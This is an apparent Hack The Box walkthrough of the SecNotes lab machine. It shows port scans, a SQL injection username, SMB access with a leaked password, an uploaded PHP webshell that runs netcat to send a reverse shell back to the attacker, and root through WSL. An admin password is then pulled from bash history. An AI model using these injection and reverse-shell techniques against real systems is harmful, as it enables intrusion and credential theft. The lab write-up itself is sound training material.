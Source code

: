 ﻿### HTB SecNotes    10.10.10.97  

First things first, check nmap, always and forever.

```
(kali㉿kali)-$ sudo nmap -T4 -p- -Pn 10.10.10.97                                                     
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-07 23:32 EDT
Nmap scan report for 10.10.10.97
Host is up (0.044s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
8808/tcp open  ssports-bcast

Nmap done: 1 IP address (1 host up) scanned in 94.61 seconds
```

Looks like we got 80, 445, and 8808.  I know what 80 and 445 are...but what's ssports-bcast on 8808.  Not sure, let's find out a bit more.

```
(kali㉿kali)-$ sudo nmap -p 8808 -A 10.10.10.97      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-07 23:44 EDT
Nmap scan report for 10.10.10.97
Host is up (0.046s latency).

PORT     STATE SERVICE VERSION
8808/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: IIS Windows
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP (85%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: Microsoft Windows XP SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 8808/tcp)
HOP RTT      ADDRESS
1   47.55 ms 10.10.14.1
2   47.68 ms 10.10.10.97

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.06 seconds
```

Ok then.  Looks like another http port.  And we see (if we didn't know already) that this is a Windows machine.  At this point, I'm going to start poking at the webserver to see if I can find anything there.

Fire up the browser, go check it out and upon initial visit I get a login page.  Inputs, wonder if these are vulnerable to injection of any sort.

![No Account](/HTB3SecNotes/pic1.png)

Doesn't look like it on the login page.  Lets create an account.

Create that with test username and get all logged in and looks like we have a note taking app.

![App View](/HTB3SecNotes/pic2.png)

You can also see that we have a username.  Tyler.  Let's keep that in our backpocket for now.  Let's test the account creation page for any type of injection.

So, create an account named `'OR 1 OR'` and then sign in and now look what I get.

![Logged in](/HTB3SecNotes/pic3.png)

And if I open these notes out, looks like I get a list of years, a recipie....and, what's this....a password?

![Tyler's password](/HTB3SecNotes/pic4.png)

So far, interesting.  I think I've pretty much gotten admin on the webapp, even grabbed a password out along with a directory.

Before we move on, let's check to see what port 8808 was.

![Basic IIS Page](/HTB3SecNotes/pic5.png)

Looks like just a basic IIS page.  Nothing too fancy.  So let's take our new found username and password and give that a go on the 445 port (SMB).

```
(kali㉿kali)-$ smbclient -U 'tyler' \\\\10.10.10.97\\new-site
Password for [WORKGROUP\tyler]:
Try "help" to get a list of possible commands.
smb: \> pwd
Current directory is \\10.10.10.97\new-site\
smb: \> ls
  .                                   D        0  Sun Aug 19 14:06:14 2018
  ..                                  D        0  Sun Aug 19 14:06:14 2018
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018

                7736063 blocks of size 4096. 3394438 blocks available
smb: \> 

```

Looks like I'm working under the website pointed at by 8808.  And Tyler's password worked to get here.  So far not too bad.  Now to see if I can get myself a shell.  So I think here, since I already know the server handles php, we're gonna make that out.

First, let's get our php written out.  Here we're going to use php system() to call nc.exe (netcat) and execute (`-e`) cmd.exe to my IP over port 4444.

![php file](/HTB3SecNotes/pic6.png)

Going to get my netcat listener started in a new terminal tab.

```
(kali㉿kali)-$ nc -nvlp 4444   
listening on [any] 4444 ...
```

Then we put our files to the server.

```
smb: \> put nc.exe
putting file nc.exe as \nc.exe (244.7 kb/s) (average 244.7 kb/s)
smb: \> put shell.php 
putting file shell.php as \shell.php (0.4 kb/s) (average 155.6 kb/s)
smb: \> ls
  .                                   D        0  Tue Oct  8 00:28:39 2024
  ..                                  D        0  Tue Oct  8 00:28:39 2024
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018
  nc.exe                              A    59392  Tue Oct  8 00:28:32 2024
  shell.php                           A       54  Tue Oct  8 00:28:39 2024

                7736063 blocks of size 4096. 3394297 blocks available
```

Go back to the browser and go to 10.10.10.97:8808/shell.php and guess what.

```
(kali㉿kali)-$ nc -nvlp 4444   
listening on [any] 4444 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.97] 52009
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>
```

Ok, so now we have a shell.  So let's get some things figured out.  Run a quick `whoami` and find out that we are under the user tyler.

Since this is a Windows subsystem for linux, we're looking for wsl.exe.  After some research and checking payloadsallthethings, we do find a small section Windows Subsystem for Linux that talks about wsl.exe and bash.exe.  So we find it by the following

```
C:\inetpub\new-site>where /R c:\windows wsl.exe
where /R c:\windows wsl.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe

C:\inetpub\new-site>where /R c:\windows bash.exe
where /R c:\windows bash.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```

Now that we have that info, we can check who the default user is for wsl.exe

```
C:\inetpub\new-site>c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe whoami
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe whoami
root
```

Ahh, it's in root.  Very interesting.  So, let's try this.

```
C:\inetpub\new-site>c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
mesg: ttyname failed: Inappropriate ioctl for device
```

Now we can get some more info gathing going on and even use python to get to a shell.

```
whoami
root
hostname
SECNOTES
uname -a
Linux SECNOTES 4.4.0-17134-Microsoft #137-Microsoft Thu Jun 14 18:46:00 PST 2018 x86_64 x86_64 x86_64 GNU/Linux
python3 -c "import pty;pty.spawn('/bin/bash')"
root@SECNOTES:~# whoami
whoami
root
```

And look at that, we're root.  In a linux subsystem.  Quick `ls -a` shows we have a bash history.  Let's give that a check.

![history](/HTB3SecNotes/pic7.png)

And would you look at that, an admin password.  How nice of them to leave this in the history like that.

Well now that we have that, we win.  So open a new tab and give psexec.py a go and what do we get?

![Whoami](/HTB3SecNotes/pic8.png)

And now we get the flag.  And another one taken down!!  That's how we do it.

![Root Flag boiiii](/HTB3SecNotes/pic9.png)

Thanks for coming with me on this little adventure!!  More to come soon! :D